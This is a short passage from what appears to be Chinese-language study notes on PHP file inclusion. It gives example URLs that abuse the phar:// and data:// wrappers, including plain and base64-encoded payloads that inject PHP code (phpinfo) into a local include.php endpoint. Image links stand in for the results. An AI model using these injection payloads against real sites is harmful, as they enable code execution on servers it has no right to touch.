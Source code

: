 			+ phar://

				http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt

				![Alt text](/style/image/image-17.png)

		+ data:// 协议

			+ data://text/plain

				http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>

				![Alt text](/style/image/image-18.png)

			+ data://text/plain;base64

				http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

				![Alt text](/style/image/image-19.png)
